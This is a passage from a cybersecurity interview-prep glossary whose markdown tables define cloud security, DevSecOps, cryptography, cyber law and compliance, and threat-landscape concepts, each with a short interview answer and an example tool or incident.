| 632. CASB (Cloud Access Security Broker) | Software that sits between users and cloud applications to monitor activity, enforce policy, and prevent data leakage. | Microsoft Defender for Cloud Apps blocking uploads of PII to Box |
| 633. CSPM (Cloud Security Posture Management) | Tools that continuously monitor cloud configurations to identify misconfigurations, compliance violations, and risks. | Prisma Cloud detecting an S3 bucket that was accidentally made public |
| 634. CWPP (Cloud Workload Protection Platform) | Security tools focused on protecting the compute workloads (VMs, containers, serverless) from compromise. | SentinelOne deployed on an EC2 instance to stop malware execution |
| 635. CNAPP (Cloud Native Application Protection Platform) | An architectural approach that combines CSPM, CWPP, and CIEM into a single platform for holistic cloud security. | Wiz or Orca Security analyzing both configuration and workload vulnerabilities |
| 636. CIEM (Cloud Infrastructure Entitlement Management) | Tools that manage and monitor identities and privileges across multi-cloud environments to enforce least privilege. | Finding inactive IAM roles in AWS and removing their permissions |
| 637. Cloud IAM | Identity and Access Management specifically controlling access to cloud provider APIs and resources. | AWS IAM assigning a role to an EC2 instance to let it read from S3 |
| 638. Cloud API Security | Protecting the application programming interfaces that developers and services use to interact with cloud infrastructure. | Requiring TLS and API keys for all requests to AWS API Gateway |
| 639. VPC (Virtual Private Cloud) | A logically isolated section of the public cloud where you can launch resources in a virtual network you define. | Creating a production VPC in Azure with its own subnets and routing |
| 640. Cloud Compliance Frameworks | Pre-defined sets of rules and controls (like SOC 2, HIPAA, FedRAMP) applied to cloud environments to meet regulatory standards. | Using AWS Artifact to download SOC 2 compliance reports |

#### ☁️ Advanced Cloud Security & DevSecOps (641–700)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|-----------------|----------------|
| 641. Instance Role / Managed Identity | A way to grant a cloud virtual machine permissions to access other cloud resources securely, without hardcoding credentials. | An EC2 instance using an IAM Role to securely write logs to CloudWatch |
| 642. Secrets Management | The secure storage, rotation, and distribution of sensitive credentials (API keys, passwords, certificates) avoiding hardcoding them in code. | AWS Secrets Manager or HashiCorp Vault injecting a DB password at runtime |
| 643. Key Management Service (KMS) | A managed service that allows you to create and control the cryptographic keys securely used to protect your data. | Azure Key Vault holding the master key used to encrypt a database |
| 644. Cloud Trail / Audit Logging | A service that records API activity and user actions within a cloud environment to enable governance and compliance. | AWS CloudTrail logging which user deleted a specific DynamoDB table |
| 645. S3 Bucket Takeover / Dangling DNS | An attack where a domain points to a cloud resource (like an S3 bucket) that was deleted; an attacker recreates the bucket to hijack the domain. | A company deletes `images.mycompany.com` S3 bucket but forgets to delete the DNS record |
| 646. Control Plane vs Data Plane | The Control Plane manages the architecture (e.g. creating VMs); the Data Plane is the actual user data flowing through the architecture. | Control Plane: `aws ec2 run-instances`. Data Plane: Users visiting the resulting web server. |
| 647. Metadata Service (IMDS) | An API endpoint available from within a cloud VM used to retrieve instance metadata, including temporary IAM credentials. | Querying `169.254.169.254` from an EC2 instance to get its temporary access token |
| 648. SSRF (Server-Side Request Forgery) in Cloud | A vulnerability where an attacker forces a server to make a request to the cloud metadata service to steal credentials. | Capital One breach (2019) where an SSRF vulnerability was used to access the AWS metadata service |
| 649. S3 Public Exposure | One of the most common cloud breaches where a storage bucket's permissions permit unauthorized Internet access to files. | Leaving an S3 bucket containing customer backups open to the world |
| 650. IAM Over-Privilege | The risky practice of granting more permissions than necessary, often using wildcard `*` permissions like `AdministratorAccess`. | A developer granting `s3:*` to a Lambda function instead of `s3:GetObject` on a specific bucket |
| 651. Cross-Account Access | The ability to securely grant users in one cloud account access to resources in another without sharing credentials. | Using AWS `AssumeRole` to let the central Security Account audit a Production Account |
| 652. Security Group | A fundamental cloud firewall operating at the instance/VM level, blocking traffic by default and allowing specific inbound/outbound ports. | Allowing TCP port 22 (SSH) only from the corporate office IP |
| 653. Network ACL (NACL) | A stateless firewall operating at the subnet level in a VPC, providing an additional layer of defence. | Denying all traffic from a known malicious IP range entering the subnet |
| 654. Cloud Load Balancer Logging | Enabling logs on the load balancer to capture the source IP, path, and user agent of every single client request before it hits internal servers. | ALB Access Logs sent to an S3 bucket for incident response analysis |
| 655. DevSecOps | The integration of security practices and automated testing within the Dev/Ops software development lifecycle (SDLC). | A CI/CD pipeline that runs a vulnerability scan before deploying code |
| 656. SAST (Static Application Security Testing) | Analysing application source code (without executing it) to find security vulnerabilities early in development. | Using Checkmarx or SonarQube to find SQL injection flaws in a Java repository |
| 657. DAST (Dynamic Application Security Testing) | Analysing a running web application from the outside by sending simulated attacks to find vulnerabilities. | Running OWASP ZAP or Burp Enterprise against a staging environment |
| 658. SCA (Software Composition Analysis) | Identifying third-party open-source libraries in your codebase and checking them against databases of known vulnerabilities. | Using Snyk or Dependabot to find out you're using a vulnerable version of Log4j |
| 659. Vulnerability Scanning (Containers) | Inspecting container images for known CVEs before they are pushed to production or run in a cluster. | Trivy scanning a Docker image in a GitHub Action |
| 660. Secrets Scanning | Automatically reviewing code commits to detect hardcoded passwords, API keys, or cloud access tokens before they are merged. | GitGuardian blocking a commit that contains an AWS API secret |
| 661. Image Signing | Cryptographically signing container images so the orchestration platform (like K8s) can verify they haven't been tampered with. | Docker Content Trust ensuring that the cluster only runs approved, signed images |
| 662. Immutable Infrastructure | Deploying servers or containers that are never modified after deployment. If an update is needed, a completely new instance is built and deployed. | Stopping SSH access entirely; replacing EC2 instances via Terraform instead of updating them |
| 663. Golden Image | An OS image pre-configured with the company's security baseline, agents, and patches from which all new servers must be built. | Creating an AMI (Amazon Machine Image) that has CrowdStrike and Splunk pre-installed |
| 664. Drift Detection | Continuously monitoring infrastructure to ensure its actual configuration matches the expected Infrastructure-as-Code state. | AWS CloudFormation drift detection showing someone manually opened port 22 |
| 665. Shift Left | The philosophy of moving security testing and controls as early as possible in the software development lifecycle to catch issues sooner and cheaper. | Implementing SAST in the developer's IDE instead of waiting for a pentest in staging |
| 666. Policy as Code | Writing security and compliance rules in a programming language to automatically evaluate and block non-compliant infrastructure changes. | Using Open Policy Agent (OPA) to reject Terraform plans that create public S3 buckets |
| 667. CI/CD Pipeline Security | Defending the automated build and deployment systems against compromise, as gaining access to the pipeline means gaining access to production. | Using short-lived OpenID Connect (OIDC) tokens instead of long-lived API keys in GitHub Actions |
| 668. Cloud Storage Encryption | Configuring object and block storage services to encrypt data at rest, often managed by the cloud provider's Key Management Service. | Enabling AWS S3 Default Encryption using SSE-KMS |
| 669. Service Mesh | A dedicated infrastructure layer for managing service-to-service communication within a microservices architecture, often enforcing mutual TLS. | Istio managing internal communication rules between K8s pods |
| 670. API Gateway security | Centralising security for APIs by enforcing OAuth validation, rate limiting, and input filtering before traffic reaches backend systems. | AWS API Gateway blocking a brute-force attack with a strict request quota |
| 671. Cloud Data Loss Prevention (DLP) | Tools that scan data moving into or already living in cloud storage to identify and protect sensitive information such as PII. | Amazon Macie discovering unencrypted credit card numbers in an S3 bucket |
| 672. Bastion Host | A highly secured, heavily monitored server placed in a public subnet that administrators use to connect to instances in private subnets. | An EC2 instance used exclusively as a jump box for SSH access |
| 673. Route Tables | Rules within a VPC that determined where network traffic from your subnet or gateway is directed. | A route table directing `0.0.0.0/0` (internet bound traffic) to an Internet Gateway |
| 674. Egress Filtering | Restricting outward-bound network traffic from cloud servers to prevent malware from downloading extra payloads or exfiltrating data. | Creating a Security Group rule that only allows outbound traffic on port 443 |
| 675. Zero Trust Architecture | The principle of "never trust, always verify"; requiring continuous authentication and authorisation for all users and devices regardless of location. | BeyondCorp replacing enterprise VPNs with verified context-based access |
| 676. Serverless Security | The challenge of securing functions-as-a-service where you don't control the OS. Security focuses heavily on IAM permissions and application code. | Writing strict IAM roles for AWS Lambda |
| 677. Cloud Auditing | Periodically verifying cloud configurations, access logs, and security controls against industry standards like CIS. | Using AWS Security Hub to run automated CIS benchmark checks |
| 678. Ephemeral Credentials | Temporary, short-lived security tokens used to access cloud resources instead of long-term static passwords or keys. | AWS STS generating access tokens that expire automatically after one hour |
| 679. Incident Response in Cloud | Customising traditional IR processes to account for cloud environments, relying heavily on automation, snapshots, and API logs. | Using AWS Step Functions to automatically isolate a compromised EC2 instance |
| 680. Cloud Vendor Lock-In Risk | The operational risk of relying too heavily on provider-specific proprietary services, making migration technically or financially prohibitive. | Architecting with generic Kubernetes instead of provider-specific PaaS |
| 681. Bring Your Own Key (BYOK) | A model where a customer generates their own encryption key on-premise and imports it to the cloud provider's KMS. | Importing an RSA key to Azure Key Vault to encrypt a database |
| 682. Customer Managed Key (CMK) | Encryption keys within the cloud provider's KMS where the customer retains full control over the lifecycle, rotation, and usage policies. | Creating an AWS KMS CMK with a strict key policy limiting usage to a single IAM role |
| 683. WAF (Web Application Firewall) | A cloud-hosted appliance that inspects incoming HTTP/HTTPS traffic to block common attacks like SQL injection and Cross-Site Scripting. | AWS WAF deployed on an Application Load Balancer dropping malicious requests |
| 684. Cloud Threat Intelligence | Feeds of known malicious IP addresses, domains, and files integrated into cloud security tools to automatically block attacks. | Amazon GuardDuty flagging traffic communicating with a known crypto-mining pool |
| 685. Data Sovereignty | Legal guidelines stipulating that data must reside physically within the borders of the country where it was generated. | Configuring Azure to only store European customer data within the Frankfurt region |
| 686. RTO (Recovery Time Objective) | The maximum acceptable amount of time that an application can be offline during an outage. | A disaster recovery plan designed to restore services within 4 hours |
| 687. RPO (Recovery Point Objective) | The maximum acceptable amount of data loss measured in time before a failure occurs. | 15-minute database backups ensuring the RPO is less than 15 minutes |
| 688. Snapshot | A point-in-time copy of a cloud storage volume that can be used to quickly restore data or create a duplicate environment. | Taking an EBS snapshot before applying a major server patch |
| 689. AWS GuardDuty | An AWS threat detection service that continuously monitors CloudTrail logs, VPC Flow Logs, and DNS logs for malicious activity. | GuardDuty alerting you that an EC2 instance is port scanning internal networks |
| 690. Azure Security Center | Microsoft's unified infrastructure security management system that strengthens the security posture of data centres. | Identifying VMs missing endpoint protection agents |
| 691. GCP Security Command Center | Google Cloud's centralised vulnerability and threat reporting service. | Identifying misconfigured Google Cloud Storage buckets |
| 692. Least Privilege in Cloud | Ensuring that users, groups, and automated services have precisely the permissions needed to perform their tasks, and nothing more. | Giving a user `dynamodb:query` access to a single table, not the whole database |
| 693. Infrastructure as Code Scanning | Automatically reviewing Terraform, CloudFormation, or Ansible code before deployment to catch misconfigurations. | Checkov blocking a Terraform plan because it creates a database without encryption |
| 694. Container Escape | An attack where an adversary uses an exploit within a container to gain access to the underlying host operating system. | Exploiting a misconfigured privilege container to access the host's file system |
| 695. RBAC | Role-Based Access Control, mapping permissions to roles (like 'Developer' or 'Admin') rather than individuals. | Assigning a new employee to the 'Data Analyst' role in Azure Active Directory |
| 696. Multi-tenant Architecture | A single instance of software running on a server that serves multiple tenants (customers), reliant on strict logical separation. | Salesforce hosting thousands of clients securely in the same application stack |
| 697. Egress Data Charges | The cost cloud providers charge you for data leaving their network, often a massive and unexpected expense during large-scale exfiltration or DDoSes. | An attacker exfiltrating 5TB over a weekend causing a massive cloud bill shock |
| 698. Shadow IT in Cloud | When employees provision SaaS accounts or unmanaged cloud servers without the IT department's knowledge or approval. | A marketing team buying a standalone Google Workspace account with a corporate credit card |
| 699. Cloud Cost Optimisation | The ongoing process of ensuring you only pay for the cloud resources you actually need, often driven by tagging and automation. | Ensuring non-production development environments automatically shut down over the weekend |
| 700. Cloud Resource Tagging | Applying metadata (labels) to cloud resources to help identify their owner, environment, or purpose, aiding both billing and security incident response. | Adding the tag `Environment=Production` and `Owner=SecurityTeam` to a firewall |

### Cryptography (701–800)

!!! note "Format: concept, answer, example, or tool"
    Each row gives you a clean definition you can say in an interview, plus a concrete control, example, or tool.

---

#### 🔑 Core & Symmetric (701–730)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 701. Cryptography | Practice of protecting data with ciphers, keys, hashes, and signatures so only trusted parties can read or verify it. | AES, RSA, TLS, and digital signatures |
| 702. Encryption | Process of converting readable data into ciphertext using an algorithm and key. | AES-256 encrypting a file or database column |
| 703. Decryption | Process of turning ciphertext back into readable data with the correct key. | A browser decrypting TLS traffic from a website |
| 704. Plaintext | Original readable data before encryption is applied. | A password file before it is encrypted |
| 705. Ciphertext | Unreadable encrypted output produced by a cryptographic algorithm. | An AES-encrypted file blob |
| 706. Symmetric Encryption | Encryption model where the same secret key is used for both encryption and decryption. | AES in disk encryption and VPN tunnels |
| 707. Asymmetric Encryption | Encryption model that uses a public key to encrypt or verify and a private key to decrypt or sign. | RSA or ECC in certificates and digital signatures |
| 708. Public Key Crypto | Branch of cryptography that uses public and private key pairs for encryption, signatures, and key exchange. | TLS certificates and SSH keys |
| 709. Private Key Crypto | Use of a secret private key that must be protected because compromise breaks confidentiality or signature trust. | A server's TLS private key stored in an HSM |
| 710. Key Exchange | Method for safely establishing a shared secret between parties over an untrusted network. | Diffie-Hellman during a TLS handshake |
| 711. AES | Modern symmetric block cipher widely used because it is fast, strong, and hardware-accelerated. | AES-256 in BitLocker or TLS |
| 712. DES | Older symmetric block cipher with a short key size that is now considered insecure. | Legacy systems phased out because 56-bit DES can be brute-forced |
| 713. 3DES | Transitional cipher that applies DES three times to improve security, but is now deprecated for modern use. | Older payment or banking systems migrating away from 3DES |
| 714. RSA | Public-key algorithm used for encryption, key exchange support, and digital signatures. | RSA certificates and signed software packages |
| 715. ECC | Public-key cryptography based on elliptic curves that gives strong security with smaller keys than RSA. | ECDSA certificates and mobile-device cryptography |
| 716. Blowfish | Legacy symmetric block cipher designed as a fast DES alternative but now mostly replaced by AES. | Older encrypted archives or embedded systems |
| 717. Twofish | Symmetric block cipher from the AES competition that remains secure but is less commonly deployed than AES. | Some file-encryption products and research tools |
| 718. ChaCha20 | Modern stream cipher optimized for software performance and often paired with Poly1305 for integrity. | ChaCha20-Poly1305 in TLS and mobile apps |
| 719. RC4 | Deprecated stream cipher once used in TLS and Wi-Fi, but now broken by multiple biases and attacks. | Legacy protocols where RC4 must be disabled |
| 720. IDEA | Older symmetric block cipher once used in PGP, now mostly of historical interest. | Legacy encrypted email tooling |
| 721. Hashing | One-way transformation that produces a fixed-length digest used for integrity checks and secure verification. | SHA-256 verifying file integrity |
| 722. SHA | Secure Hash Algorithm family used to create digests for integrity and signature workflows. | SHA-2 family in certificates and software downloads |
| 723. SHA-256 | 256-bit member of the SHA-2 family commonly used for integrity checks and blockchain-style hashing. | File checksum verification with SHA-256 |
| 724. SHA-512 | 512-bit SHA-2 variant used where longer digests or stronger margin are preferred. | Password storage or certificate tooling using SHA-512 |
| 725. MD5 | Legacy hash function that is fast but collision-broken and unsuitable for security-sensitive use. | Only acceptable for non-security checksums on trusted data |
| 726. HMAC | Keyed hashing method that proves integrity and authenticity when both sides share a secret. | Signed API requests using HMAC-SHA256 |
| 727. Digital Signature | Cryptographic proof that a message or file came from a specific signer and was not altered. | Code signing and signed PDFs |
| 728. MAC | Short for Message Authentication Code, a keyed integrity check used to detect tampering and confirm message origin. | HMAC on API traffic or tokens |
| 729. Certificate Authority | Trusted entity that issues and signs certificates binding identities to public keys. | Let's Encrypt or an enterprise internal CA |
| 730. PKI | Public Key Infrastructure that manages certificates, trust chains, revocation, and key lifecycle. | Internal CA hierarchy with certificate issuance and renewal |

#### 🔒 Key Management, TLS & Attacks (731–750)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 731. Key Management | Process of generating, storing, rotating, revoking, and destroying keys safely. | AWS KMS or HashiCorp Vault |
| 732. Key Rotation | Replacing keys on a schedule or after risk events so leaked keys have limited lifetime. | Automatic KMS key rotation every year |
| 733. Key Storage | Secure protection of keys so they cannot be extracted or misused by attackers. | HSM-backed key storage |
| 734. Key Escrow | Controlled storage of recovery copies of keys so access can be restored under approved conditions. | Enterprise recovery process for encrypted laptops |
| 735. Secure Key Exchange | Safe exchange of cryptographic material while preventing interception or tampering. | ECDHE with certificate validation |
| 736. Diffie-Hellman | Key exchange algorithm that lets two parties derive a shared secret over an untrusted channel. | Ephemeral Diffie-Hellman in TLS 1.3 |
| 737. ECC | Public-key cryptography based on elliptic curves that gives strong security with smaller keys than RSA. | ECDSA certificates and mobile-device cryptography |
| 738. SSL | Older encrypted transport protocol that has known weaknesses and has been replaced by TLS. | Legacy SSL versions disabled on web servers |
| 739. TLS | Modern transport security protocol that protects data in transit with encryption, integrity, and authentication. | TLS 1.3 securing HTTPS |
| 740. HTTPS | HTTP protected by TLS so web traffic is encrypted and server identity can be verified. | Online banking over HTTPS on port 443 |
| 741. TLS Handshake | Initial negotiation step where peers agree on algorithms, authenticate, and derive session keys. | ClientHello, certificate exchange, and ECDHE |
| 742. TLS 1.3 | Latest major TLS version with faster handshakes and stronger default cryptography than older releases. | Modern browsers connecting with forward secrecy by default |
| 743. Email Encryption | Protection of email content so only intended recipients can read it. | S/MIME or PGP-encrypted email |
| 744. File Encryption | Encrypting individual files so stolen copies remain unreadable without the key. | GPG-encrypted documents or 7-Zip AES archives |
| 745. Disk Encryption | Encrypting an entire storage device so data is protected if the hardware is lost or stolen. | BitLocker or FileVault |
| 746. Full Disk Encryption | Disk encryption that covers the full volume, including system files and user data. | Laptop protection with BitLocker TPM mode |
| 747. Encryption at Rest | Protecting stored data so compromise of storage media does not reveal plaintext. | Encrypted databases, backups, and object storage |
| 748. Encryption in Transit | Protecting data while it moves across networks so eavesdroppers cannot read or alter it. | TLS on web sessions or IPSec VPN tunnels |
| 749. Cryptographic Attacks | Techniques that try to break confidentiality or integrity by exploiting weak algorithms, keys, implementations, or side channels. | Brute-force, padding-oracle, and timing attacks |
| 750. Cryptanalysis | Study and practice of analyzing ciphers and protocols to find weaknesses or recover secrets. | Researchers testing a new encryption scheme for flaws |

### Laws & Global Standards (801–900)

!!! note "Format: concept, answer, example, or tool"
    Each row gives you a clean definition you can say in an interview, plus a concrete control, example, or tool.

---

#### Cyber laws and data protection (751-780)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 751. Cyber law concept | Body of law that governs digital activity, online crime, electronic evidence, privacy, and technology-enabled transactions. | Computer misuse statutes and breach notification rules |
| 752. Information technology law | Legal rules covering the use of software, networks, contracts, data handling, and digital services. | Laws around e-commerce, software licensing, and cybercrime |
| 753. Data protection law | Legal requirements for collecting, processing, storing, and deleting personal or sensitive data. | GDPR or other regional privacy statutes |
| 754. Privacy law | Rules that define how organizations may collect, use, share, and secure personal information. | Consent notices and data subject rights handling |
| 755. Digital signature law | Legal recognition of cryptographic signatures as valid evidence of intent and authenticity. | E-signed contracts under recognized digital-signature rules |
| 756. Electronic transaction law | Laws that make electronic records, contracts, and payments legally valid under defined conditions. | Online purchase agreements and digital invoices |
| 757. Cybercrime law | Statutes criminalizing unauthorized access, malware deployment, fraud, identity theft, and related digital offenses. | Prosecution for ransomware or account takeover |
| 758. Intellectual property law | Legal framework protecting creations such as software, designs, source code, and brand assets. | Copyright, trademark, and patent enforcement |
| 759. Copyright law | Rules protecting original creative works, including code, documentation, media, and written content. | Unauthorized copying of proprietary software |
| 760. Trademark law | Rules protecting names, logos, and branding that identify a product or organization. | Stopping a fake site that imitates a company brand |
| 761. Patent law | Rules protecting novel inventions and processes, including some hardware or security methods. | Patented cryptographic hardware design |
| 762. Data breach law | Requirements for notifying regulators, customers, or partners when protected data is exposed. | Breach disclosure timelines after customer data theft |
| 763. GDPR regulation | EU data protection regulation that defines lawful processing, privacy rights, and breach obligations for personal data. | Data subject access requests and 72-hour reporting |
| 764. HIPAA regulation | US healthcare regulation protecting protected health information through administrative, technical, and physical safeguards. | Controlling access to patient records |
| 765. PCI DSS standard | Payment-card security standard requiring strong controls around cardholder data environments. | Segmentation and logging for payment systems |
| 766. ISO 27001 standard | International standard for building and maintaining an information security management system. | ISO 27001 certification with risk-based controls |
| 767. ISO 27002 standard | Control guidance standard that supports ISO 27001 with practical security measures and good practices. | Using ISO 27002 as a control reference catalog |
| 768. NIST framework | Risk-based security framework used to identify, protect, detect, respond, and recover. | NIST CSF gap assessment and maturity planning |
| 769. COBIT framework | Governance framework aligning IT controls, assurance, and business objectives. | Board-level oversight of IT and security controls |
| 770. ITIL framework | Service-management framework covering incident, change, and problem processes that often support security operations. | Change approval and incident handling workflows |
| 771. Security governance | Oversight model that assigns ownership, approves policy, and tracks accountability for security decisions. | Security steering committee and policy owners |
| 772. Security compliance | Meeting security requirements from laws, standards, contracts, or internal policy and proving it with evidence. | Control attestations and audit-ready evidence |
| 773. Regulatory compliance | Process of satisfying obligations imposed by regulators or statutory bodies. | Following sector rules for finance or healthcare |
| 774. Risk management framework | Structured method for identifying, assessing, treating, and monitoring risk across the organization. | NIST RMF or enterprise risk registers |
| 775. Audit requirements | Evidence and process expectations that must be met during internal or external audits. | Log retention, policy records, and control testing |
| 776. Security policies | High-level mandatory rules that define expected behavior and control objectives. | Acceptable use, password, and remote-access policies |
| 777. Security procedures | Step-by-step instructions showing how staff carry out policy requirements in practice. | User offboarding or incident escalation procedure |
| 778. Security guidelines | Recommended practices that help teams apply policy without always being mandatory. | Secure coding guideline or logging standard |
| 779. Security standards | Baseline technical or process requirements that systems must meet. | CIS benchmarks or enterprise hardening standards |
| 780. Legal compliance | State of operating in accordance with applicable laws, regulations, and contractual obligations. | Documented controls mapped to legal requirements |

#### Compliance and enforcement (781-800)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 781. Data privacy protection | Controls and legal practices that keep personal data confidential, lawful, and limited to valid uses. | Consent management and retention limits |
| 782. Data classification law | Legal obligations that require certain categories of data to receive stronger handling and protection. | Extra controls for health or financial data |
| 783. Data retention law | Rules that define how long records must be kept and when they must be deleted. | Retention schedules for HR or tax records |
| 784. Data transfer law | Legal restrictions and safeguards that apply when data is shared with another party or system. | Contract clauses for processor-to-controller transfers |
| 785. Cross border data | Rules and risks involved when data moves between countries with different privacy requirements. | Regional hosting and transfer impact assessments |
| 786. Cyber liability | Legal exposure an organization faces after security failures, privacy violations, or service disruption. | Contract claims and cyber-insurance coverage |
| 787. Legal risk management | Process of identifying, tracking, and reducing legal exposure tied to security and privacy issues. | Reviewing contracts and breach scenarios with counsel |
| 788. Incident reporting law | Laws or sector rules that require certain incidents to be reported within defined timeframes. | Reporting a breach to regulators and affected users |
| 789. Digital evidence law | Rules governing how electronic evidence is collected, preserved, and presented so it remains admissible. | Forensic imaging with documented chain of custody |
| 790. Cyber forensics law | Legal requirements affecting cyber investigations, evidence handling, and examiner authority. | Search warrant scope and evidence preservation |
| 791. Ethical hacking law | Legal boundaries for authorized security testing that require written permission and defined scope. | Internal penetration test under a signed rules-of-engagement document |
| 792. Penetration testing law | Legal and contractual rules that determine what testing is allowed, where, and with whose consent. | Cloud pen-test approval before testing production |
| 793. Bug bounty policy | Published terms describing what researchers may test, how to report, and what safe harbor applies. | HackerOne program policy |
| 794. Responsible disclosure | Process for reporting vulnerabilities privately so owners can fix them before public release. | Researcher notifies vendor and waits for remediation window |
| 795. Security audit compliance | Meeting audit expectations for controls, evidence, and remediation tracking. | Passing an ISO surveillance audit |
| 796. Third party compliance | Checking that vendors and partners also meet required security and privacy obligations. | Vendor assessments and shared control evidence |
| 797. Vendor risk compliance | Applying compliance and risk requirements to suppliers that process data or provide critical services. | Security clauses in procurement and annual reviews |
| 798. Security certification | Formal recognition that a person, process, or system has met a defined security standard. | ISO certification or product evaluation |
| 799. Compliance monitoring | Ongoing review that checks whether controls continue to meet legal, regulatory, and contractual duties. | Continuous control monitoring dashboard |
| 800. Legal enforcement | Actions taken by regulators, courts, or contract parties when obligations are violated. | Fines, corrective orders, or litigation |

### Advanced Topics (901–1000)

!!! note "Format: concept, answer, example, or tool"
    Each row gives you a clean definition you can say in an interview, plus a real-world example, attack, or tool.

---

#### Architecture and modern threat concepts (901-950)

| Point & Concept | Interview Answer | Example / Tool |
|-----------------|------------------|----------------|
| 901. Zero Trust | Security model that eliminates implicit trust — every user, device, and request must be verified continuously regardless of network location. | BeyondCorp, Zscaler ZTNA, Conditional Access |
| 902. Defense in Depth | Layering multiple independent security controls so no single failure exposes the whole environment. | Firewall + EDR + MFA + network segmentation |
| 903. Least Privilege | Granting identities and processes only the minimum access they need to perform their task, nothing more. | PAM vaults, just-in-time admin access, scoped IAM roles |
| 904. Secure by Design | Embedding security requirements into a system's architecture from the start rather than bolting them on later. | Threat modeling conducted before the first line of code is written |
| 905. Security by Default | Shipping products in the safest reasonable configuration so users are protected before they change any settings. | Cloud storage private-by-default; admin MFA required out of the box |
| 906. Risk-Based Security | Prioritizing controls based on likelihood and impact of harm rather than treating all risks equally. | NIST RMF workshop maps threats to business impact |
| 907. Threat Modeling | Structured analysis of how a system could be attacked, what assets matter most, and which controls reduce risk most efficiently. | STRIDE model applied to a new payment API during design |
| 908. Attack Surface Reduction | Removing unnecessary services, open ports, permissions, and features that attackers could exploit. | Disable SMBv1, close unused ports, restrict admin interfaces |
| 909. Security Posture | Snapshot of an organization's overall security health — covering controls in place, known gaps, and remediation progress. | CSPM dashboard showing critical misconfigs and unpatched assets |
| 910. Cyber Resilience | The ability to absorb a significant attack or outage and restore normal operations with minimal lasting damage. | Recovering production from clean backups after ransomware without paying |
| 911. Security Maturity Model | Structured framework for assessing how repeatable, measurable, and well-governed a security program is. | CMMI or SSE-CMM maturity levels from ad hoc to optimized |
| 912. Security Metrics | Quantitative measures that show whether security controls are working and risk is trending up or down. | MTTD, MTTR, patch SLA compliance, phishing click rate |
| 913. KRI | Key Risk Indicator — a metric that signals growing exposure before it becomes an incident. | Rising number of critical unpatched internet-facing systems |
| 914. KPI | Key Performance Indicator for security — measures whether program goals are being achieved. | 95 % of high-severity findings patched within SLA |
| 915. Security Analytics | Applying statistical and ML-based analysis to large security datasets to find patterns humans would miss. | UEBA baselines normal login time; flags 3 AM access from a new country |
| 916. Big Data Security | Protecting the collection, storage, and processing of large-scale data from breaches, misuse, and privacy violations. | Data classification labels + encryption + retention controls on a data lake |
| 917. AI in Cybersecurity | Using machine learning and AI to speed up detection, automate triage, and improve defensive decisions at scale. | LLM-assisted alert summarization; AI-driven phishing URL classification |
| 918. ML Security | Defending machine-learning models, training pipelines, and inference endpoints against poisoning, theft, or adversarial evasion. | Adversarial-input testing of a fraud-detection model |
| 919. Blockchain Security | Protecting wallets, smart contracts, consensus nodes, and private keys from theft, exploitation, or manipulation. | Smart-contract audit with Slither; multi-sig wallet for treasury |
| 920. Post-Quantum Cryptography | Algorithms designed to remain secure against attacks from quantum computers. | NIST PQC candidates: CRYSTALS-Kyber, CRYSTALS-Dilithium |
| 921. Threat Intelligence | Curated knowledge about attacker infrastructure, tactics, indicators, and motivations used to improve defenses. | MISP, Recorded Future, commercial intel feeds |
| 922. APT | Advanced Persistent Threat — a well-resourced adversary that maintains stealthy, long-term access to achieve strategic goals. | Nation-state group persisting inside a network for months before exfiltration |
| 923. Nation-State Attack | Highly capable operation backed by a government, aimed at espionage, sabotage, or strategic disruption. | SolarWinds SUNBURST — months of stealthy access before discovery |
| 924. Hacktivism | Politically or socially motivated cyber activity used to protest, embarrass, or disrupt a target. | Anonymous DDoS campaigns and website defacements |
| 925. Cyber Espionage | Stealthy theft of sensitive information, intellectual property, or state secrets for intelligence advantage. | APT10 exfiltrating defense contractor blueprints over months |
| 926. Cyber Terrorism | Cyber operations intended to cause fear, panic, or major disruption to critical infrastructure for ideological aims. | Attack on power grid or water treatment systems |
| 927. Insider Risk | Security risk created by employees, contractors, or partners who misuse legitimate access — intentionally or accidentally. | Disgruntled admin exporting database backups before resignation |
| 928. Supply Chain Risk | Threats introduced through vendors, software dependencies, hardware suppliers, or integrators before reaching the target. | Compromised software build tool injecting malware into signed updates |
| 929. Third-Party Risk | Security exposure created by outside organizations that have data access, integrations, or operational influence. | MSP with privileged access to client networks and no MFA |
| 930. Vendor Risk Management | Ongoing program for identifying, assessing, and reducing risk from external suppliers and service providers. | Annual vendor questionnaires and contractual security requirements |
| 931. Bug Bounty | Programme that invites security researchers to responsibly report vulnerabilities under defined rules and rewards. | HackerOne or Bugcrowd operating a public program |
| 932. Vulnerability Disclosure | Reporting a discovered security flaw to the affected owner so they can fix it safely. | CVE filed → vendor notified → patch released → public advisory |
| 933. Responsible Disclosure | Coordinated approach where a researcher privately gives the vendor time to patch before publishing findings publicly. | Researcher reports flaw to vendor, agrees on 90-day disclosure window |
| 934. Red Team | Group that simulates real-world adversaries to test whether defenses actually hold up under realistic attacks. | Week-long red team exercise simulating phishing, lateral movement, and data theft |
| 935. Blue Team | Internal security group responsible for monitoring, detecting, and responding to threats in the environment. | SOC analysts reviewing SIEM alerts and EDR telemetry continuously |
| 936. Purple Team | Collaborative exercise where red and blue teams work together to test detections and improve response in real time. | Attack simulation run while blue team tunes SIEM rules alongside |
| 937. SOC | Security Operations Centre — the team and processes responsible for 24/7 threat monitoring, triage, and escalation. | L1 alert triage → L2 investigation → L3 incident escalation |
| 938. Threat Intel Sharing | Distributing attacker IOCs, TTPs, and context between trusted organizations to accelerate collective defense. | ISACs sharing indicators between sector members via STIX/TAXII |
| 939. Kill Chain | Sequential model of an intrusion showing each phase from reconnaissance through to attacker impact. | Recon → Weaponise → Deliver → Exploit → Install → C2 → Act |
| 940. MITRE ATT&CK | Globally accessible knowledge base of adversary tactics and techniques built from real-world observations. | Map detections and hunt queries to ATT&CK technique IDs |
| 941. Lockheed Kill Chain | Specific seven-phase kill-chain model developed by Lockheed Martin for structured intrusion analysis. | Breaking an intrusion at Delivery prevents all later phases |
| 942. Security Automation | Automating repetitive security tasks so responses are faster, consistent, and free analysts for higher-value work. | SOAR playbook auto-isolating an endpoint on an EDR alert |
| 943. Security Orchestration | Linking security tools and response steps together so actions happen in the right sequence with the right context. | SOAR coordinates SIEM alert → EDR isolation → Jira ticket |
| 944. DevSecOps | Integrating security controls directly into development and deployment pipelines so security ships with every release. | CI/CD with SAST, SCA, container scanning, and secrets detection |
